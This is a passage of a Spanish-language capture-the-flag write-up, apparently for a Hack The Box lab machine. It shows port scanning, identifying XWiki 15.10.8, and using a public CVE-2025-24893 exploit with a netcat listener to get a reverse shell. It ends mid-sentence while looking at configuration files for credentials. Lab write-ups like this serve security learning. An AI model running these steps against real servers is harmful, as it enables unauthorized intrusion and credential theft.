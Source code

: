 #xWiki #RCE 

## Reconocimiento
Empezamos la maquina realizando un reconocimiento de puertos y servicios con [[NMAP]]:
`nmap -sS -p- --open --min-rate 5000 -n -Pn -vvv 10.10.11.80 -oG allPorts`

Encontramos los puertos `22, 80, 8080`

Añadimos la maquina al fichero `/etc/hosts`

Navegamos al puerto `80` por la web y encontramos que en el apartado `Docs` nos redirige a `wiki.editor.htb` para poder verlo correctamente lo volvemos a añadir al `/etc/hosts`

Navegando en la web de `http://wiki.editor.htb/xwiki/bin/view/Main/` vemos que la versión de `xWiki` es la `15.10.8`

Buscamos en internet información sobre esta versión y encontramos que es vulnerable a RCE, usamos el exploit de GitHub `https://github.com/Bishben/xwiki-15.10.8-reverse-shell-cve-2025-24893`
el cual nos explica como explotarlo.

## Explotación
Para explotarlo necesitamos ponernos primero en escucha con [[NETCAT]] en un puerto de nuestra maquina `nc -nlvp 4444`

Después deberemos ejecutar el Python 
`python3 cve-2025-24893.py <target_base_url> <lhost> <lport>`

En nuestro listenner obtendremos una Shell como `xWiki`
Si navegamos al directorio `/home` vemos que hay un usuario `Oliver`, para poder pivotar a el, buscaremos información en los archivos de configuración de `xWiki`

Estos ficheros de configuracion se encuentran en `/usr/lib/xwiki` exactamente miraremos el archivo 